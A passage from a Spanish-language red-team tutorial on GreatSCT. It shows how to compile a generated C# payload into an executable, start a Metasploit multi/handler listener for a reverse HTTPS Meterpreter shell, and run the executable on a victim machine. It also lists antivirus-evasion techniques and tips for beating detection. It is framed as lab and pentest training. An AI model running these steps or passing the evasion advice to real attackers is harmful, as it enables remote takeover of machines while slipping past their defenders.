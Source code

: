 #### 3. Se genera el archivo `payload.cs`.

#### 4. Lo compilas:

```bash
mcs payload.cs -out:payload_evasion.exe
```

#### 5. Configuras el listener en `msfconsole`:

```bash
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 192.168.56.1
set LPORT 443
exploit
```

#### 6. Ejecutas `payload_evasion.exe` en la máquina víctima (laboratorio).

🎯 Resultado: El payload conecta al handler y abre una sesión Meterpreter, evadiendo muchos antivirus.

---

### 📌 Técnicas de evasión usadas por GreatSCT

- Codificación del shellcode (XOR, Base64, RC4)
- Inyección directa en memoria (evita escribir a disco)
- Plantillas limpias en C#, PowerShell y VBA
- Compilación runtime en C# o VBScript

---

### 🛡️ ¿Detectan los AV modernos esto?

Muchos antivirus modernos **detectan GreatSCT** si se usa sin modificar. Pero si tú:

- Editas manualmente el C#
- Cambias el orden del código
- Aplicas cifrado o empaquetado adicional

👉 puedes lograr **evasión total en entornos de laboratorio**.

---

### ✅ Conclusión

| Punto clave                   | Descripción                                     |
| ----------------------------- | ----------------------------------------------- |
| **GreatSCT**                  | Herramienta para generar payloads que evaden AV |
| **Usa msfvenom**              | Integra shellcodes de Metasploit                |
| **Salida en C#, Python, PS1** | Facilita la evasión AV                          |
| **Ideal para pruebas**        | En laboratorios de red teaming y pentesting     |

---
